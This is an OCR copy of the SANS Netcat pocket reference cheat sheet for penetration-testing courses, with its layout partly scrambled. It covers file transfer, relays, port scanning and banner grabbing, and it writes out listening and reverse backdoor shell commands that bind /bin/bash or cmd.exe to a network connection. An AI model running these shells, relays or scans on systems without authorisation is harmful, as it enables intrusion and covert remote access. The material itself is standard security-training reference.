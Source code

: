 # Netcat

To start, enter a temporary directory where we will create .bat files:

C:\> cd c:\temp

Listener-to-Client Relay: 

C:\> echo nc [TargetIPaddr][port] > relay.bat

C:\> nc –l –p [LocalPort] –e relay.bat

Create a relay that sends packets from the local port [LocalPort] to a Netcat Client connected to [TargetIPaddr] on port [port]

Listener-to-Listener Relay:

C:\> echo nc –l –p [LocalPort_2] > relay.bat

C:\> nc –l –p [LocalPort_1] –e relay.bat

Create a relay that will send packets from any connection on [LocalPort_1] to any connection on [LocalPort_2]

Client-to-Client Relay:

C:\> echo nc [NextHopIPaddr][port2] > relay.bat

C:\> nc [PreviousHopIPaddr][port] –e relay.bat

Create a relay that will send packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat Client connected to [NextHopIPaddr] on  port [port2] 

Netcat Command Flags

Cheat Sheet

$ nc [options][TargetIPaddr] [port(s)]

The [TargetIPaddr] is simply the other side’s IP address or domain name. It is required in client mode of course (because we have to tell the client  where to connect), and is optional in listen mode.

-l: Listen mode (default is client mode)

-L: Listen harder (supported only on Windows version of Netcat). This option makes Netcat a persistent listener which starts listening again after a client disconnects

-u: UDP mode (default is TCP)
-p: Local port (In listen mode, this is port listened on. In client mode, this is source port for all packets sent)
-e: Program to execute after connection occurs, connecting STDIN and STDOUT to the program
-n: Don’t perform DNS lookups on names of machines on the other side
-z: Zero-I/O mode (Don’t send any data, just emit a packet without payload)
-wN: Timeout for connects, waits for N seconds after closure of STDIN. A Netcat client or listener with this option will wait for N seconds to make a connection. If the connection doesn’t happen in that time, Netcat stops running.
-v: Be verbose, printing out messages on Standard Error, such as when a connection occurs
-vv: Be very verbose, printing even more details on Standard Error



By Ed Skoudis
POCKET REFERENCE GUIDE
http://www.sans.org

File Transfer

Push a file from client to listener:
$ nc –l -p [LocalPort] > [outfile]

Listen on [LocalPort], store results in [outfile]
$ nc –w3 [TargetIPaddr][port] < [infile]

Push [infile] to [TargetIPaddr] on [port]

Pull file from listener back to client:
$ nc –l -p [LocalPort] < [infile]

Listen on [LocalPort], prep to push [infile]

$ nc –w3 [TargetIPaddr][port] > [outfile]

Connect to [TargetIPaddr] on [port] and retrieve [outfile]

TCP Port Scanner

Port scan an IP Address:
`$ nc –v –n –z –w1 [TargetIPaddr][start_port]-[end_port]`

Attempt to connect to each port in a range from [end_port] to [start_port] on IP Address [TargetIPaddr] running verbosely (-v on Linux, - vv on Windows), not resolving names (-n), without sending any data (-z), and waiting no more than 1 second for a connection to occur (-w1) The randomize ports (-r) switch can be used to choose port numbers randomly in the range

TCP Banner Grabber

Grab the banner of any TCP service running on an IP

Address from Linux:
`$ echo "" | nc –v –n –w1 [TargetIPaddr][start_port]-[end_port]`

Attempt to connect to each port in a range from
[end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v), not
resolving names (-n), and waiting no more than 1
second for a connection to occur (-w1). Then send a
blank string to the open port and print out any
banner received in response
Add –r to randomize destination ports within the
range
Add –p [port] to specify a source port for the
scan
Backdoor Shells
Listening backdoor shell on Linux:
$ nc –l –p [LocalPort] –e /bin/bash
Listening backdoor shell on Windows:
C:\> nc –l –p [LocalPort] –e cmd.exe
Netcat Relays on Linux
To start, create a FIFO (named pipe) called
backpipe:
$ cd /tmp
$ mknod backpipe p
Listener-to-Client Relay:
$ nc –l –p [LocalPort] 0<backpipe | nc
[TargetIPaddr] [port] | tee backpipe
Create a relay that sends packets from the local port
[LocalPort] to a Netcat client connected to
[TargetIPaddr] on port [port]
Listener-to-Listener Relay:
$ nc –l –p [LocalPort_1] 0<backpipe |
nc –l –p [LocalPort_2] | tee backpipe
Create a relay that sends packets from any
connection on [LocalPort_1] to any connection
on [LocalPort_2]
Create a shell on local port [LocalPort] that can
then be accessed using a fundamental Netcat client Client-to-Client Relay:
$ nc [PreviousHopIPaddr] [port]
0<backpipe | nc [NextHopIPaddr]
[port2] | tee backpipe
Reverse backdoor shell on Linux:
$ nc [YourIPaddr] [port] –e /bin/bash
Reverse backdoor shell on Windows:
C:\> nc [YourIPaddr] [port] –e cmd.exe Create a relay that sends packets from the
connection to [PreviousHopIPaddr] on port
[port] to a Netcat client connected to
[NextHopIPaddr] on port [port2]
Create a reverse shell that will attempt to connect to
[YourIPaddr] on local port [port]. This shell
can then be captured using a fundamental nc listener
Purpose
This cheat sheet provides various tips for
using Netcat on both Linux and Unix,
specifically tailored to the SANS 504, 517,
and 560 courses. All syntax is designed for
the original Netcat versions, released by
Hobbit and Weld Pond. The syntax here
can be adapted for other Netcats, including
ncat, gnu Netcat, and others.
Fundamentals
Fundamental Netcat Client:
$ nc [TargetIPaddr] [port]
Connect to an arbitrary port [port] at IP Address
[TargetIPaddr]
Fundamental Netcat Listener:
$ nc –l -p [LocalPort]
Create a Netcat listener on arbitrary local port
[LocalPort]
Both the client and listener take input from STDIN
and send data received from the network to STDOUT